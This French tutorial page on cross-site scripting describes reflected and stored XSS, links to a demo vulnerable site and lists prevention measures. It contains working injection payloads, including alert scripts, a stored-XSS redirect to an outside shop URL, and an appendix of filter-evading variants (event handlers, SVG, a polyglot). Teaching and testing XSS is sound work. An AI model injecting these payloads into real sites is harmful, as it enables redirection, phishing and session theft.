# Introduction

Les attaques XSS (Cross-Site Scripting) sont des vulnérabilités web critiques qu'il est important de comprendre dans un contexte pédagogique. Voici une présentation structurée de ce type d'attaque.

# Types d'attaques XSS principaux

**XSS Réfléchi (Reflected)**
- L'attaque se produit lorsque les données malveillantes sont immédiatement renvoyées à l'utilisateur
- Nécessite que la victime clique sur un lien spécialement conçu
- Cible souvent les pages de recherche et les messages d'erreur

**XSS Persistant (Stored)**
- Le code malveillant est stocké sur le serveur de manière permanente
- Affecte tous les visiteurs de la page compromise
- Particulièrement dangereux car peut toucher des milliers d'utilisateurs






# 🚀 **Démonstration  : Testez Votre Sécurité Web** 🔥  

- http://latestworlds.com/demo/
- http://latestworlds.com/demo/article.php?id=1#

### 🛡️ **Êtes-vous prêt à découvrir des vulnérabilités en un clin d'œil ?** 💡  

Nous vous proposons un **scénario simple**, mais **puissant** pour démontrer les risques XSS (Cross-Site Scripting). **Testez-le sur vos plateformes !**

---

## ⚡ **Scénario 1 : Exploitez une injection simple XSS**  

🎯 **Liens de test :**  
1️⃣ [http://latestworlds.com/demo/](http://latestworlds.com/demo/)  
2️⃣ [http://latestworlds.com/demo/article.php?id=1#](http://latestworlds.com/demo/article.php?id=1#)  


**Scénario 1**
```javascript
// Exemple de payload basique pour démonstration
<script>alert('XSS!')</script>
```



## 💥 **Capture 1** : **Injection XSS réussie**  


![image](https://github.com/user-attachments/assets/ae85fbc2-df75-48e4-b0d4-a83e80c5ace6)  

⚠️ **Vous verrez un pop-up avec un simple `alert('XSS!')`.** Cela prouve qu’une faille XSS existe ! 🕵️‍♂️  



## ⚡ **Scénario 1 : Exploitez une injection simple XSS**  
---

💥 **Capture 2** : **Résultat dans l’interface utilisateur**  
![image](https://github.com/user-attachments/assets/0a95be5e-17f1-4507-9362-79465c1ff144)  

---

💥 **Capture 3** : **Preuve de concept complète**  
![image](https://github.com/user-attachments/assets/53434e99-3082-4cf8-9f03-4856691a060c)  

---

## 🔍 **Pourquoi tester vos systèmes ?**  
✅ **Détectez** les vulnérabilités **avant les hackers** 💻  
✅ **Renforcez** la sécurité de vos plateformes 🛡️  
✅ **Montrez à vos clients que vous êtes fiable !** 🔒  

---

🎁 **Prêt à aller plus loin ?** Testez **gratuitement** dès maintenant ! 🚀  

🔥 **Ne laissez pas les vulnérabilités compromettre votre succès !** 🔥  

---  

### 📢 **Partagez cette démonstration avec votre équipe !** 👥  
🔗 **Faites passer le message : La sécurité, c’est pour tous !**  

















# Démonstration 




--------------

![image](https://github.com/user-attachments/assets/0a95be5e-17f1-4507-9362-79465c1ff144)

--------------

![image](https://github.com/user-attachments/assets/53434e99-3082-4cf8-9f03-4856691a060c)

--------------

![image](https://github.com/user-attachments/assets/b8f16c7f-3b86-41d4-9f44-c2c15c4c2c24)

--------------

![image](https://github.com/user-attachments/assets/9aeacbd8-4088-4df8-93b8-9f7e0500854a)

--------------

![image](https://github.com/user-attachments/assets/3499c6e2-b003-49ec-a200-0c21b87457d0)


--------------


**Scénario 2**

Le script est le suivant :

```html
<script>alert("XSS Stocké !!!");</script>
```

Ceci montre une démonstration d'une attaque **XSS stockée (Cross-Site Scripting)** où un script malveillant est injecté dans un formulaire et peut être exécuté côté client.

**Scénario 3**

### Script XSS pour redirection
```html
<script>window.location.href="https://boutique.rapidopresco.com/";</script>
```

### Explication
- **`<script>`** : Balise JavaScript qui exécute le code.
- **`window.location.href`** : Permet de rediriger l'utilisateur automatiquement vers le site souhaité.

---

### Exemple d'injection
Ajoutez ceci dans le champ de commentaire ou de pseudo pour simuler une attaque XSS stockée ou réfléchie :

```html
<script>alert('Alerte XSS !'); window.location.href="https://boutique.rapidopresco.com/";</script>
```

---

### **Pédagogie et Sécurité**
- Cette démonstration sert à montrer l'impact d'une mauvaise validation des entrées.
- Il est important d'assainir (sanitize) les données côté serveur pour éviter l'exécution de scripts malveillants.  





**Points importants**
- Ne jamais tester sur des sites réels
- Utiliser uniquement des environnements contrôlés
- Mettre l'accent sur la prévention et la sécurisation

# Impacts et risques

**Conséquences possibles**
- Vol de cookies et sessions utilisateurs
- Hameçonnage et vol d'identifiants
- Détournement de sessions authentifiées
- Modification du contenu des pages

# Prévention

**Mesures de sécurité essentielles**
- Validation stricte des entrées utilisateur
- Encodage HTML des sorties
- Utilisation de frameworks sécurisés
- Mise en place d'une Content Security Policy (CSP)

-------------------
# Annexe :
-------------------

## Scripts XSS pour tests pédagogiques

**Scripts basiques**
```javascript
// Affichage simple
<script>alert('XSS Test')</script>
// Utilisation de fromCharCode
<a href="javascript:alert(String.fromCharCode(88,83,83))">Cliquez ici</a>
```

**Scripts avec gestionnaires d'événements**
```html
// Utilisation de onerror
<img src="inexistant" onerror="alert('XSS via onerror')">
// Utilisation de onload avec SVG
<svg onload=alert('XSS')>
// Utilisation de BODY
<BODY ONLOAD=alert('XSS')>
```

**Scripts avancés**
```javascript
// Script polyglot multi-contextes
javascript:/*--></title></style></textarea></script></xmp>
<svg/onload='+/"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>

// Style avec list-style-image
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
```

## Contextes d'utilisation

**Test de validation d'entrées**
```javascript
// Injection dans les paramètres URL
?keyword=<script>alert("Test XSS")</script>

// Injection dans les formulaires
<img src="aaaaa" onerror="alert('Bypass filtres');" />
```

Il est crucial de n'utiliser ces scripts que dans un environnement de test contrôlé et isolé.



